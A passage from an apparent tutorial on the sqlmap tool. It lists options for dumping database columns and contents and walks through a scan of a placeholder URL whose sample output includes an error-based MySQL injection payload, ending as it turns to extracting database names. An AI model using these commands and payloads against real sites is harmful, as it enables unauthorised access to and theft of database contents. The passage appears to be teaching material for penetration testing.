 ```

| --column | It will extract the number of the columns within a table and show us the name of each of them |

| -C name | It allows us to select the column |

| --dump | It allows us to extract content from the database |

| --dump-all | It extracts everything from the database |


```

Once we know the basic options of the tool, we will see an example of how to use it:

## Basic sql injection step by step

For this example we will simulate that we have a vulnerable page by the GET method, we will use the following url:

`sqlmap.py -u" http://www.examplepage.com/something.php?id=1&id2=1&id3=1 "`

When you start the scan, it is divided into parts:

It will scan the connection to the page.
It will scan the page for any WAF or IPS:

`[INFO] checking if the target is protected by some kind of WAF / IPS`

At the end of the scan, something like this will appear:
```
[*] starting at 12:10:33

[12:10:33] [INFO] resuming back-end DBMS 'mysql' 
[12:10:34] [INFO] testing connection to the target url
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id=3 AND (SELECT 1489 FROM(SELECT COUNT(*),CONCAT(0x3a73776c3a,(SELECT (CASE WHEN (1489=1489) THEN 1 ELSE 0 END)),0x3a7a76653a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
---
[12:10:37] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5

```
This means that the scan is finished, that the page is vulnerable and that we managed to attack it successfully. The next thing is to extract the name of the database, to extract the name of the databases we are going to use the `--dbs` option:

